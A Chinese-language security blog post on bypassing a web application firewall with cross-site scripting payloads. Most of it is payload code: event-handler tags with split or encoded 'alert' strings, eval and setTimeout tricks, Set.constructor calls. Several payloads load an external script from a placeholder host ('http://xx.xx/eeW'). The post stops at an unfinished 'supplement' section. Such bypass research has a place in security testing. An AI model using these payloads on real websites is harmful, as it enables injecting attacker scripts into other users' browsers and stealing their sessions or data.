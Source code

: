 ## 前言
- - -
对于我这个菜鸟来说，我通过谷歌百度学习到很多前辈的资料，甚至每句话都是他的指导，我也很感激前辈的为我们铺设的道路，让我们更快的成长起来。我也乐于分享，可能有些知识点过于单调或者久远，请见谅。

## waf
- - -
前几天花了10买了一个月的服务器，换个waf来测试。
![1](https://ws1.sinaimg.cn/large/005DAKuvgy1g1xeuqs6nwj30g60cgdge.jpg)   

### Test

遗漏标签就不测试了，上一篇[水文](https://www.anquanke.com/post/id/176185)的分享的标签也可以过，不信找几个试试= =

好吧非常打脸，拦截了。

![2](https://ws1.sinaimg.cn/large/005DAKuvgy1g1xf5z6pwcj30uj0590t6.jpg)

然而换个prompt()函数???免费版当然是这样的啦，高级服务不仅我买不起，还绕不过啊，而且我不是真正的站长，规则我也不会设啊，总之就是这也不会那也不会。

![3](https://ws1.sinaimg.cn/large/005DAKuvgy1g1xf9uioa9j30uj094wf8.jpg)

![4](https://ws1.sinaimg.cn/large/005DAKuvgy1g1xff076fvj30c80c874l.jpg)

### Top属性类似的补充
- - -
还记得上篇的top属性嘛

![5](https://ws1.sinaimg.cn/large/005DAKuvgy1g1xfxfayjoj30kg04ot8n.jpg)

实际上可以利用的还有好几个，看到这里各位是否get到什么了。

![6](https://ws1.sinaimg.cn/large/005DAKuvgy1g1xju6slwuj30ub06raac.jpg)

我们可以利用的类似拼接的对象又多了几个，例如：
```html
//一家人就是要整整齐齐
<details open ontoggle=top['al'%2B'ert'](1) >
<details open ontoggle=self['al'%2B'ert'](1) >
<details open ontoggle=parent['al'%2B'ert'](1) >
<details open ontoggle=frames['al'%2B'ert'](1) >
<details open ontoggle=content['al'%2B'ert'](1) >
<details open ontoggle=window['al'%2B'ert'](1) >
```
这些都可以绕过waf，总结起来有 `top` `self` `parent` `frames` `content` `window`，无疑`top`是最短的，所谓短小精悍，这里借用PKAV的一张ppt。

![7](https://ws1.sinaimg.cn/large/005DAKuvgy1g1xkryc227j30fp073782.jpg)

### 其他补充
除了拆分构造，我们必须要了解还有编码，这个确实是老生常谈的话题，先看个例子吧

将e字母url编码，成功弹窗也绕过waf。
`<details open ontoggle=top['al%65rt'](1) >`
![11](https://ws1.sinaimg.cn/large/005DAKuvgy1g1xte6v6ioj30uj07bwf4.jpg)

其他编码
```html
JS8编码：
<details open ontoggle=top['al\145rt'](1) >
<details open ontoggle=top['\141\154\145\162\164'](1) >
JS16编码：
<details open ontoggle=top['al\x65rt'](1) >
其他
<details open ontoggle=top[/al/.source%2B/ert/.source](1) >
```
### parseInt()与toString()
- - -
**parseInt()**

![12](https://ws1.sinaimg.cn/large/005DAKuvgy1g1xw3xjyifj30nj0b1dga.jpg)

例子: `alert`字符串用`parseInt函数`，以基数为30转化后为`8680439`


![13](https://ws1.sinaimg.cn/large/005DAKuvgy1g1xw6xbo82j30ff05tq2z.jpg)

**toString()**


![14](https://ws1.sinaimg.cn/large/005DAKuvgy1g1xwe1vapzj30g809z0sx.jpg)

例子: `toString函数`将返回的数字`8680439`,以基数为30还原

![15](https://ws1.sinaimg.cn/large/005DAKuvgy1g1xwgo4zb3j30fl083wen.jpg)

这样你就能理解下面这个例子了。
```html
<details open ontoggle=top[8680439..toString(30)](1); >
<details open ontoggle=top[11189117..toString(32)](1); >
```
![16](https://ws1.sinaimg.cn/large/005DAKuvgy1g1xwsdzqctj30uj0930tj.jpg)

### 俩个例子
- - -
**例1**
```html
<img src=1 alt=al lang=ert onerror=top[alt%2blang](0)>
```
这个例子很巧妙，将`alt`和`lang`属性分别赋值合并起来就是`alert`，并在top属性内将2个属性相加。


**例2**
```html
 <details open ontoggle=top[a='al',b='ev',b%2ba]('alert(1)')>
```
在top属性内添加2个变量，并赋值构造eval，然后执行alert(1)

测试下，拦截了。
![8](https://ws1.sinaimg.cn/large/005DAKuvgy1g1xodipv2ej30uj05hmxm.jpg)

其实waf，拦截的是alert这个关键字，换个`prompt()`函数就过了

![9](https://ws1.sinaimg.cn/large/005DAKuvgy1g1xoh9uty6j30uj086q3n.jpg)

也可以选择将`alert(1)`编码，因为有eval存在啊，直接拿来用

```html
<details open ontoggle=top[a='al',b='ev',b%2ba](atob('YWxlcnQoMSk='))>
<details open ontoggle=top[a='al',b='ev',b%2ba]('\141\154\145\162\164\50\61\51')>
<details open ontoggle=top[a='al',b='ev',b%2ba]('\u0061\u006c\u0065\u0072\u0074\u0028\u0031\u0029')>
```

![10](https://ws1.sinaimg.cn/large/005DAKuvgy1g1xom9zf77j30uj097mxz.jpg)

setTimeout()函数也是没问题的，毕竟也能执行代码。 
```html
<details open ontoggle=top[a='meout',b='setTi',b%2ba]('\141\154\145\162\164\50\61\51')>
```

## eval函数的补充
- - -
#### setTimeout

![19](https://ws1.sinaimg.cn/large/005DAKuvgy1g1ycyd6jedj30no0adt90.jpg)

waf拦截
```html
<svg/onload=setTimeout`alert(1)`>
```
![17](https://ws1.sinaimg.cn/large/005DAKuvgy1g1xy2v7lvnj30uj05d74p.jpg)

编码下，就绕过了。
```html
<svg/onload=setTimeout`alert\u0028233\u0029`>
```
![18](https://ws1.sinaimg.cn/large/005DAKuvgy1g1xy76ggesj30uj0813z5.jpg)

#### setInterval

与`setInterval`不同，对于`setTimeout()`只执行code一次。

![20](https://ws1.sinaimg.cn/large/005DAKuvgy1g1yczzsa24j30no0exwf8.jpg)

`<svg/onload=setInterval('al'%2b'ert(1)')>`

![21](https://ws1.sinaimg.cn/large/005DAKuvgy1g1yd573lavj30uj09qwf9.jpg)

绕过waf，引用外部js。
```html
<svg/onload=setInterval(appendChild(createElement('script')).src='http://xx.xx/eeW')>
```
![22](https://ws1.sinaimg.cn/large/005DAKuvgy1g1yd9dqh46j30uj0e4q4j.jpg)

#### 其他
```html
拆分与编码
<svg/onload=\u0073etInterval(appendChild(createElement('script')).src='http://xx.xx/eeW')>
<svg/onload=\u0073etInterval(appendChild(createElement('sc\162ipt')).src='http://xx.xx/eeW')>
<svg/onload=\u0073etInterval(appendChild(createElement('scr'%2b'ipt')).src='http://xx.xx/eeW')>
<svg/onload=\u0073etInterval(\u0061ppendChild(\u0063reateElement('scr'%2b'ipt')).src='http://xx.xx/eeW')>
 
结合函数：
<iframe onload=s=createElement('script');body.appendChild(s);s.src=['http','://','xx.xx','/eeW'].join('') >
<svg/onload=s=createElement('script');body.appendChild(s);s.src=['http']%2B['://']%2B['xx.xx']%2B['/eeW'].join('') >
<svg/onload=s=\u0063reateElement('scr'%2b'ipt');\u0062ody.\u0061ppendChild(s);s.src='http://x'.concat('x.xx/','eeW'); >
```

### 扩展
- - -

关于运用基于DOM的方法创建和插入节点把外部JS文件注入到网页，这种方法在<<XSS跨站脚本gj剖析与防御>>有介绍过。我这里简单演示下，如果你了解或者不感兴趣可以跳过这段。

首先用createElement方法创建一个script标签。

![23](https://ws1.sinaimg.cn/large/005DAKuvgy1g1ydpwjmafj30fh07jt8s.jpg)

接下来给<script>的src属性设置成外部url
 
![24](https://ws1.sinaimg.cn/large/005DAKuvgy1g1ydrl28mhj30fe0b1jrn.jpg)

可以看到<script>标签以及src属性已经被创建出来，但是并不在页面上输出啊。
 
![25](https://ws1.sinaimg.cn/large/005DAKuvgy1g1yf3ujkccj30fe0a174d.jpg)

我们就要用到appendChild()方法将变量s插入页面。

![26](https://ws1.sinaimg.cn/large/005DAKuvgy1g1yf6k40vgj30fg08gt93.jpg)

再来看看页面上

![27](https://ws1.sinaimg.cn/large/005DAKuvgy1g1yf7nce1dj30fe0620ss.jpg)

### constructor属性
- - -

![28](https://ws1.sinaimg.cn/large/005DAKuvgy1g1yk1fdzqmj30fh07idfu.jpg)

少年!Post到什么了没有。

![29](https://ws1.sinaimg.cn/large/005DAKuvgy1g1yk4ibtegj30m3047weh.jpg)

又是拆分。。注意后面的`()`

```html
<svg/onload=Set.constructor('al'%2b'ert(1)')()>
```
![30](https://ws1.sinaimg.cn/large/005DAKuvgy1g1yk7bt75gj30uj09a3z9.jpg)

反引号我看行。。注意后面2个反引号。

```html
<svg/onload=Set.constructor`al\x65rt\x28/xss/\x29```>
```
![31](https://ws1.sinaimg.cn/large/005DAKuvgy1g1ykdta6tvj30uj0943z9.jpg)

又来引用外部url。编码拆分以及结合函数，请参考上章= =，不然我怕有人说我水。。。

![33](https://ws1.sinaimg.cn/large/005DAKuvgy1g1ykjq4xx5j30k00ha3z9.jpg)

```html
<svg/onload=Set.constructor(appendChild(createElement('script')).src='http://xx.xx/eeW')()>
```
![32](https://ws1.sinaimg.cn/large/005DAKuvgy1g1ykhi14qsj30uj0b63zz.jpg)

### 补充(又是补充，你**就不能一次讲完嘛!写个文章还划水!)
- - -
咳咳，该补充的还是要补充的，除了 Set 对象还有嘛？当然有的。



